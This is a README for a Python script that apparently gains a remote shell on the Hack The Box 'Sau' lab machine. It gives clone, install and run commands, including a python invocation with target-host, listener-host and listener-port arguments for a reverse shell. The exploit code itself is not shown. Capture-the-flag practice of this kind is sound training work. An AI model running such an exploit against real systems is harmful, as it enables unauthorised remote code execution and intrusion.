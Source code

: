 # SAU Machine Hackthebox

## Remote Code Execution (RCE)

Simple sau machine RCE to gain a shell.

---

### HOW TO USE IT

Download the `repository` :

```bash
git clone https://github.com/mikelgoti/SAU-HTB-RCE.git
```

Or just download the `raw sau_rce.py script` .

Travel to the directory where you download the `script` and execute it with python:

```bash
python sau_rce.py -rhost <sau_machine_ip> -lhost <your_ip> -lport <port_for_listener>
```

## EXAMPLES

![example1](images/example1.png)



---

## Not working ?

If the script is not running properly, it could be because you haven't installed one of these modules for Python:

```requierements.txt
requests==2.28.1
pwn==1.0
```

You can install them runnig:

```bash
pip install -r requirements.txt
```
